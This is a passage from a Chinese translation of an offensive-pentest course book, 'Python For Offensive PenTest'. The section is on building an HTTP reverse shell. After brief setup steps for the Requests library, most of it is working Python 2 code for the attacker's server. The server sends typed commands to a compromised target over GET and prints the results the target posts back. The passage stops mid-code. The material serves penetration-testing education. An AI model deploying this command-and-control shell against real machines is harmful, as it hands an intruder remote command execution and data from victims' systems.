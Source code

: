 # 编写 HTTP 反向 Shell

在本节中，我们将涵盖 HTTP 反向 Shell 的编码部分。在客户端，我们将使用一个非常高层的库来发送我们的`GET`和`POST`请求。

这个名为`Requests`的库，位于[`pypi.python.org/pypi/requests/2.7.0#downloads`](https://pypi.python.org/pypi/requests/2.7.0#downloads)，使得发送`GET`或`POST`请求变得更加简单，只需要一行代码。`Requests`是一个第三方库，因此我们首先需要安装它。你只需通过命令提示符导航到包含其安装文件的文件夹，然后执行`python setup.py install`。

要验证库是否已成功安装，打开 Python 解释器，就像我们之前为`py2exe`做的那样，输入`import requests`。如果这里没有抛出异常，那么我们就可以开始使用了：

![](img/00026.jpeg)

# 服务器端

以下代码块位于服务器端：

```
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn https://jo.linkedin.com/in/python2

# Basic HTTP Server

import BaseHTTPServer # Built-in library we use to build simple HTTP server 

HOST_NAME = '10.10.10.100' # Kali IP address 
PORT_NUMBER = 80 # Listening port number 

class MyHandler(BaseHTTPServer.BaseHTTPRequestHandler): # MyHandler defines what we should do when we receive a GET/POST request
                                                          # from the client / target

    def do_GET(s):
                                         #If we got a GET request, we will:- 
        command = raw_input("Shell> ") #take user input
        s.send_response(200) #return HTML status 200 (OK)
        s.send_header("Content-type", "text/html") # Inform the target that content type header is "text/html"
        s.end_headers()
        s.wfile.write(command) #send the command which we got from the user input

    def do_POST(s):
                                                     #If we got a POST, we will:- 
        s.send_response(200) #return HTML status 200 (OK)
        s.end_headers()
        length = int(s.headers['Content-Length']) #Define the length which means how many bytes the HTTP POST data contains, the length
                                                     #value has to be integer 
        postVar = s.rfile.read(length) # Read then print the posted data
        print postVar

if __name__ == '__main__':

    # We start a server_class and create httpd object and pass our kali IP,port number and class handler(MyHandler)

    server_class = BaseHTTPServer.HTTPServer
    httpd = server_class((HOST_NAME, PORT_NUMBER), MyHandler)

    try: 
```